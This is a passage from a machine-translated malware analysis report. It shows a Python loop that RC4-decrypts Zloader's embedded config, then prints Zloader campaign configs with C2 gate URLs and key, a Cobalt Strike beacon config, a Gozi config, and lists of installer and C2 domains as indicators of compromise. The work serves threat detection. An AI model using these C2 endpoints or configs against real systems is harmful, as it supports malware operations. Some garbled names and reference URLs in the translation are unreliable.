            blob = data[off-(1024*4):off+(1024*4)]
```

现在，我们只是蛮直到我们找到一个已知的明文字符串:

```
 for i in range(len(blob)):
                rc4 = ARC4.new(key)
                test = rc4.decrypt(blob[i:])
                if '[http://'](http://') in test or '[https://'](https://') in test:
                    print("Found it")
                    print(test)
                    break
```

Zloader 内部配置:

```
CAMPAIGN: vasja

C2: [https://iqowijsdakm.com/gate.php](https://iqowijsdakm.com/gate.php)
[https://wiewjdmkfjn.com/gate.php](https://wiewjdmkfjn.com/gate.php)
[https://dksaoidiakjd.com/gate.php](https://dksaoidiakjd.com/gate.php)
[https://iweuiqjdakjd.com/gate.php](https://iweuiqjdakjd.com/gate.php)
[https://yuidskadjna.com/gate.php](https://yuidskadjna.com/gate.php)
[https://olksmadnbdj.com/gate.php](https://olksmadnbdj.com/gate.php)
[https://odsakmdfnbs.com/gate.php](https://odsakmdfnbs.com/gate.php)
[https://odsakjmdnhsaj.com/gate.php](https://odsakjmdnhsaj.com/gate.php)
[https://odjdnhsaj.com/gate.php](https://odjdnhsaj.com/gate.php)
[https://odoishsaj.com/gate.php](https://odoishsaj.com/gate.php)
C2_KEY: 03d5ae30a0bd934a23b6a7f0756aa504
```

以 C2 为基调，我们可以找到这位演员的许多广告:

```
CAMPAIGN: personal

C2: [https://iqowijsdakm.com/gate.php](https://iqowijsdakm.com/gate.php)
[https://wiewjdmkfjn.com/gate.php](https://wiewjdmkfjn.com/gate.php)
[https://dksaoidiakjd.com/gate.php](https://dksaoidiakjd.com/gate.php)
[https://iweuiqjdakjd.com/gate.php](https://iweuiqjdakjd.com/gate.php)
[https://yuidskadjna.com/gate.php](https://yuidskadjna.com/gate.php)
[https://olksmadnbdj.com/gate.php](https://olksmadnbdj.com/gate.php)
[https://odsakmdfnbs.com/gate.php](https://odsakmdfnbs.com/gate.php)
[https://odsakjmdnhsaj.com/gate.php](https://odsakjmdnhsaj.com/gate.php)
[https://odjdnhsaj.com/gate.php](https://odjdnhsaj.com/gate.php)
[https://odoishsaj.com/gate.php](https://odoishsaj.com/gate.php)
C2_KEY: 03d5ae30a0bd934a23b6a7f0756aa504

CAMPAIGN: googleaktualizacija

C2: [https://iqowijsdakm.com/gate.php](https://iqowijsdakm.com/gate.php)
[https://wiewjdmkfjn.com/gate.php](https://wiewjdmkfjn.com/gate.php)
[https://dksaoidiakjd.com/gate.php](https://dksaoidiakjd.com/gate.php)
[https://iweuiqjdakjd.com/gate.php](https://iweuiqjdakjd.com/gate.php)
[https://yuidskadjna.com/gate.php](https://yuidskadjna.com/gate.php)
[https://olksmadnbdj.com/gate.php](https://olksmadnbdj.com/gate.php)
[https://odsakmdfnbs.com/gate.php](https://odsakmdfnbs.com/gate.php)
[https://odsakjmdnhsaj.com/gate.php](https://odsakjmdnhsaj.com/gate.php)
[https://odjdnhsaj.com/gate.php](https://odjdnhsaj.com/gate.php)
[https://odoishsaj.com/gate.php](https://odoishsaj.com/gate.php)
C2_KEY: 03d5ae30a0bd934a23b6a7f0756aa504

CAMPAIGN: buldog

C2: [https://iqowijsdakm.com/gate.php](https://iqowijsdakm.com/gate.php)
[https://wiewjdmkfjn.com/gate.php](https://wiewjdmkfjn.com/gate.php)
[https://dksaoidiakjd.com/gate.php](https://dksaoidiakjd.com/gate.php)
[https://iweuiqjdakjd.com/gate.php](https://iweuiqjdakjd.com/gate.php)
[https://yuidskadjna.com/gate.php](https://yuidskadjna.com/gate.php)
[https://olksmadnbdj.com/gate.php](https://olksmadnbdj.com/gate.php)
[https://odsakmdfnbs.com/gate.php](https://odsakmdfnbs.com/gate.php)
[https://odsakjmdnhsaj.com/gate.php](https://odsakjmdnhsaj.com/gate.php)
[https://odjdnhsaj.com/gate.php](https://odjdnhsaj.com/gate.php)
[https://odoishsaj.com/gate.php](https://odoishsaj.com/gate.php)
C2_KEY: 03d5ae30a0bd934a23b6a7f0756aa504

CAMPAIGN: personal

C2: [https://iqowijsdakm.com/gate.php](https://iqowijsdakm.com/gate.php)
[https://wiewjdmkfjn.com/gate.php](https://wiewjdmkfjn.com/gate.php)
[https://dksaoidiakjd.com/gate.php](https://dksaoidiakjd.com/gate.php)
[https://iweuiqjdakjd.com/gate.php](https://iweuiqjdakjd.com/gate.php)
[https://yuidskadjna.com/gate.php](https://yuidskadjna.com/gate.php)
[https://olksmadnbdj.com/gate.php](https://olksmadnbdj.com/gate.php)
[https://odsakmdfnbs.com/gate.php](https://odsakmdfnbs.com/gate.php)
[https://odsakjmdnhsaj.com/gate.php](https://odsakjmdnhsaj.com/gate.php)
[https://odjdnhsaj.com/gate.php](https://odjdnhsaj.com/gate.php)
[https://odoishsaj.com/gate.php](https://odoishsaj.com/gate.php)
C2_KEY: 03d5ae30a0bd934a23b6a7f0756aa504

CAMPAIGN: 9092ge

C2: [https://asdfghdsajkl.com/gate.php](https://asdfghdsajkl.com/gate.php)
[https://lkjhgfgsdshja.com/gate.php](https://lkjhgfgsdshja.com/gate.php)
[https://kjdhsasghjds.com/gate.php](https://kjdhsasghjds.com/gate.php)
[https://kdjwhqejqwij.com/gate.php](https://kdjwhqejqwij.com/gate.php)
[https://iasudjghnasd.com/gate.php](https://iasudjghnasd.com/gate.php)
[https://daksjuggdhwa.com/gate.php](https://daksjuggdhwa.com/gate.php)
[https://dkisuaggdjhna.com/gate.php](https://dkisuaggdjhna.com/gate.php)
[https://eiqwuggejqw.com/gate.php](https://eiqwuggejqw.com/gate.php)
[https://dquggwjhdmq.com/gate.php](https://dquggwjhdmq.com/gate.php)
[https://djshggadasj.com/gate.php](https://djshggadasj.com/gate.php)
C2_KEY: 03d5ae30a0bd934a23b6a7f0756aa504

CAMPAIGN: googleaktualizacija

C2: [https://iqowijsdakm.com/gate.php](https://iqowijsdakm.com/gate.php)
[https://wiewjdmkfjn.com/gate.php](https://wiewjdmkfjn.com/gate.php)
[https://dksaoidiakjd.com/gate.php](https://dksaoidiakjd.com/gate.php)
[https://iweuiqjdakjd.com/gate.php](https://iweuiqjdakjd.com/gate.php)
[https://yuidskadjna.com/gate.php](https://yuidskadjna.com/gate.php)
[https://olksmadnbdj.com/gate.php](https://olksmadnbdj.com/gate.php)
[https://odsakmdfnbs.com/gate.php](https://odsakmdfnbs.com/gate.php)
[https://odsakjmdnhsaj.com/gate.php](https://odsakjmdnhsaj.com/gate.php)
[https://odjdnhsaj.com/gate.php](https://odjdnhsaj.com/gate.php)
[https://odoishsaj.com/gate.php](https://odoishsaj.com/gate.php)
C2_KEY: 03d5ae30a0bd934a23b6a7f0756aa504

CAMPAIGN: tim

C2: [https://iqowijsdakm.com/gate.php](https://iqowijsdakm.com/gate.php)
[https://wiewjdmkfjn.com/gate.php](https://wiewjdmkfjn.com/gate.php)
[https://dksaoidiakjd.com/gate.php](https://dksaoidiakjd.com/gate.php)
[https://iweuiqjdakjd.com/gate.php](https://iweuiqjdakjd.com/gate.php)
[https://yuidskadjna.com/gate.php](https://yuidskadjna.com/gate.php)
[https://olksmadnbdj.com/gate.php](https://olksmadnbdj.com/gate.php)
[https://odsakmdfnbs.com/gate.php](https://odsakmdfnbs.com/gate.php)
[https://odsakjmdnhsaj.com/gate.php](https://odsakjmdnhsaj.com/gate.php)
[https://odjdnhsaj.com/gate.php](https://odjdnhsaj.com/gate.php)
[https://odoishsaj.com/gate.php](https://odoishsaj.com/gate.php)
C2_KEY: 03d5ae30a0bd934a23b6a7f0756aa504
```

CobaltStrike 也被这个参与者用于企业环境:

```
{'SPAWNTO_X64': '%windir%\\sysnative\\dllhost.exe', 'SLEEPTIME': '45000', 'C2_VERB_GET': 'GET', 'ProcInject_Execute': '\x06\x00B\x00\x00\x00\x06ntdll\x00\x00\x00\x00\x13RtlUserThreadStart\x00\x01\x08\x03\x04', 'HostHeader': '', 'ProcInject_MinAllocSize': '17500', 'MAXGET': '1403644', 'KillDate': '0', 'PORT': '443', 'UsesCookies': '1', 'WATERMARK': '0', 'C2_REQUEST': "[('_HEADER', 0, 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'), ('_HEADER', 0, 'Referer: [http://code.jquery.com/'](http://code.jquery.com/')), ('_HEADER', 0, 'Accept-Encoding: gzip, deflate'), ('BUILD', ('BASE64URL',)), ('HEADER', 0, 'Cookie')]", 'UNKNOWN58': '\x05\x80', 'CRYPTO_sCHEME': '0', 'ITTER': '37', 'C2_CHUNK_POST': '0', 'ObfSectionsInfo': '\xc0\x02\x00\xb2\xb8\x03\x00\x00\xc0\x03\x00h\x92\x04\x00\x00\xa0\x04\x00p\xc0\x04\x00\x00\xd0\x04\x00h\xdf\x04', 'C2_VERB_POST': 'POST', 'SPAWNTO': '', 'PROTOCOL': '8', 'PROXY_BEHAVIOR': '2', 'ProcInject_StartRWX': '4', 'ProcInject_Prepend_x86': '\x02\x90\x90', 'ProcInject_UseRWX': '32', 'DOMAINS': 'jersydok.com,/jquery-3.3.1.min.js', 'USERAGENT': 'Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko', 'ProcInject_AllocationMethod': '1', 'C2_POSTREQ': "[('_HEADER', 0, 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'), ('_HEADER', 0, 'Referer: [http://code.jquery.com/'](http://code.jquery.com/')), ('_HEADER', 0, 'Accept-Encoding: gzip, deflate'), ('BUILD', ('MASK',))]", 'textSectEnd': '179186', 'bStageCleanup': '1', 'SPAWNTO_X86': '%windir%\\syswow64\\dllhost.exe', 'ProcInject_Prepend_x64': '\x02\x90\x90', 'C2_RECOVER': '\x04\x00\x00\x00\x01\x00\x00\x05\xf2\x00\x00\x00\x02\x00\x00\x00T\x00\x00\x00\x02\x00\x00\x0f[\x00\x00\x00\r\x00\x00\x00\x0f', 'ProcInject_Stub': '2\xcdA\xed\xf0\x81\x0c[_I\x8e\xdfG1\xccm', 'PUBKEY': '30819f300d06092a864886f70d010101050003818d00308189028181009068954759ad659b888a090d3948efc82d7cb8afa3ecea20f1308e4286c1a7c3d14a462d11e6fca7240ea7def2ee953806435d71b899a2d97042ce6ec130798ee66190eef48cae9fa8bfaa4232ac9b7980153b8ce1fa3e53d335e76c38259f1f6df65a76cc9c5edc146011223d06354a2bd289db70065acaaafc865a76cab31f0203010001', 'bCFGCaution': '0', 'SUBMITURI': '/jquery-3.3.2.min.js'}
```

戈齐:

```
{
    "DLL_32": {
        "CONFIG_FAIL_TIMEOUT": "20",
        "VER": "131353",
        "UNKNOWN": "",
        "DGA_COUNT": "10",
        "TIMER": "0",
        "CRC_HOSTS": "google.mail.com firsone1.online kdsjdsadas.online",
        "CRC_URI_EXT": ".bmp",
        "CRC_URI": "/jkloll/",
        "CRC_SERVERKEY": "01026655AALLKENM",
        "MD5": "1c362dcf0fe517a05952caf90ae1d992",
        "CRC_SERVER": "12",
        "IMPHASH": "0d41e840891676bdaee3e54973cf5a69",
        "PUB_KEY": "f9ccfec396940a0f3ba99d0043ae8c9a5df54fde98c1596c974533e2050fbd92623d802012d8c5f007edc94b61c460966e4a52aaa5a007556f096bda2787a20794f30fbf22d41b7a90025905be82a0c45cbef21c0413de1df670744573e9122a685b6324ea0cd572a1e570c2df33fd549b3f95b7a4bec6864e29d73ed88c7187278c7f1afa49c2eacb35609e6a8e27c9",
        "SHA256": "5d80327decb188074a67137699e5fccdc3a8b296a931ddf20d37597cebb4d140",
        "CONF_TIMEOUT": "10",
        "CRC_GROUP": "9090"
    }
}
```

# IOCs

安装系统:

```
cloudfiletehnology.com
zoomdownloab.site
pornofilmspremium.com
datalystoy.com
cmdadminu.com
teambatfor.com
clouds222.com
commandaadmin.com
```

安装面板流量模式:

```
/processingSetRequestBat1/?servername=
/processingSetRequestBat2/?servername=
/processingSetRequestBat3/?servername=
/processingSetRequestBat4/?servername=
/processingSetRequestBat5/?servername=
/processingSetRequestBat6/?servername=
/processingSetRequestBot/?servername=
/processingSetRequestCoba/?servername=
/processingSetRequestDownload/?servername=
/processingSetRequestAtera/?servername=
```

戈齐:

```
firsone1.online
kdsjdsadas.online
```

Zloader:

```
eiqwuggejqw.com
yuidskadjna.com
iweuiqjdakjd.com
odsakmdfnbs.com
odjdnhsaj.com
djshggadasj.com
dquggwjhdmq.com
kjdhsasghjds.com
lkjhgfgsdshja.com
iqowijsdakm.com
dkisuaggdjhna.com
dksaoidiakjd.com
iasudjghnasd.com
odsakjmdnhsaj.com
asdfghdsajkl.com
wiewjdmkfjn.com
olksmadnbdj.com
daksjuggdhwa.com
kdjwhqejqwij.com
odoishsaj.com
```

钴击:

```
jersydok.com
```

# 参考

1:[http://blog.sevagas.com/?Hacking-around-HTA-files](http://blog.sevagas.com/?Hacking-around-HTA-files)

2:【https://hatching.io/blog/lnk-hta-polyglot/ 

3:[https://www . sentinel one . com/labs/hide-and-seek-new-zloader-infection-chain-comes-with-improved-stealth-and-闪避-mechanisms/](https://www.sentinelone.com/labs/hide-and-seek-new-zloader-infection-chain-comes-with-improved-stealth-and-evasion-mechanisms/)

4:[https://github.com/M2Team/NSudo](https://github.com/M2Team/NSudo)

5:[https://www . malware bytes . com/resources/files/2020/05/the-silent-night-zloader-zbot _ final . pdf](https://www.malwarebytes.com/resources/files/2020/05/the-silent-night-zloader-zbot_final.pdf)

6:[https://www . sentinel one . com/labs/valak-malware-and-the-connection-to-gozi-loader-conf crew/](https://www.sentinelone.com/labs/valak-malware-and-the-connection-to-gozi-loader-confcrew/)

7:[https://research . check point . com/2022/can-you-trust-a-files-digital-signature-new-zloader-campaign-exploits-Microsoft-signature-verification-put-users-in-risk/](https://research.checkpoint.com/2022/can-you-trust-a-files-digital-signature-new-zloader-campaign-exploits-microsofts-signature-verification-putting-users-at-risk/)

8:[https://www . bleeping computer . com/news/security/Microsoft-code-sign-check-bypassed-to-drop-zloader-malware/](https://www.bleepingcomputer.com/news/security/microsoft-code-sign-check-bypassed-to-drop-zloader-malware/)